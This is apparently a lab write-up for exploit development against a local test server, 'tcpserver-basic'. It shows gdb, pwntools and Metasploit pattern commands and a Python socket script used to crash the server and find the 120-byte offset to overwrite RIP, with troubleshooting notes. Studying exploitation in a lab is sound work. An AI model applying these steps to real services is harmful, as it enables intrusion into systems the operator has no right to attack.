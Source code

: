 
Transfer: Copied to Fedora using scp.

2. Find the Offset to RIP
Determine the offset to overwrite the return address (RIP) using a cyclic pattern.
Commands:
gdb ./tcpserver-basic
(gdb) run 40000
# In another terminal:
python3 -c 'from pwn import cyclic; print(cyclic(1000).decode())' | nc localhost 40000
# In GDB, after crash:
(gdb) info registers rip

Install pwntools (On Fedora):
pip install pwntools

Alternative Pattern Generation (On Kali):
msf-pattern_create -l 1000 > pattern.txt
scp pattern.txt techn@<FEDORA_IP>:/home/techn/
cat pattern.txt | nc localhost 40000

Details:

Sent a 1000-byte cyclic pattern to crash the server.
Error Encountered: Initial attempts caused a SIGPIPE in GDB:Program received signal SIGPIPE, Broken pipe.
0x00007ffff7e9f384 in __GI___libc_write ...


Cause: The netcat client closed the connection before the server processed the full pattern.
Resolution: Created a Python script to maintain the connection:# File: send_pattern_part1.py
import socket
from pwn import cyclic

pattern = cyclic(2000)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("localhost", 40000))
s.sendall(pattern + b"\n")
s.recv(1024)
s.close()

python3 send_pattern_part1.py




Error Encountered: Server ran continuously without crashing.
Cause: Pattern was too small, or the server expected newline-terminated input.
Resolution: Increased pattern size to 2000 bytes and appended \n.


Result: GDB showed a SIGSEGV with RIP overwritten (e.g., 0x6141316141306141).
Calculate Offset (On Kali):msf-pattern_offset -q 6141316141306141


Output: Exact match at offset 120.
